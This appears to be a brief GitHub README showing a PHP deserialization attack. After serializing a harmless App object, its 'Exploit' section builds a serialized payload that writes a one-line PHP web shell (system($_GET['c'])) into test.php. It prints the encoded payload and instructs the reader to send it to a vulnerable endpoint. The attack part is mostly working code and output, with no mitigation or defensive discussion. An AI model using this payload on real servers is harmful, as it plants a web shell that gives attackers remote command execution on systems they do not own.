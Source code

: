 # phpDeserilization

# Find vulnerable endpoint!!

## Usage

*Testing*
deseralize.php
```php
<?php

class App
{
    public $logfile = 'logs.txt';
    public $logData = 'text';
}

$test = new App;

echo serialize($test);
```

Run deseralize.php, eg: 
```php
O:3:"App":2:{s:7:"logfile";s:8:"logs.txt";s:7:"logData";s:4:"text";}
```
To seralize the object/class


# Exploit 

```php
<?php

class App
{
    public $logfile = 'test.php';
    public $logData = '<?php system($_GET["c"]);?>';
}

$test = new App;

echo htmlspecialchars(serialize($test));

```
Output:
```php
O:3:&quot;App&quot;:2:{s:7:&quot;logfile&quot;;s:8:&quot;test.php&quot;;s:7:&quot;logData&quot;;s:27:&quot;&lt;?php system($_GET[&quot;c&quot;]);?&gt;&quot;;}
#From html entity
O:3:"App":2:{s:7:"logfile";s:8:"test.php";s:7:"logData";s:27:"<?php system($_GET["c"]);?>";} 
```

Use the payload on the vunerable endpoint

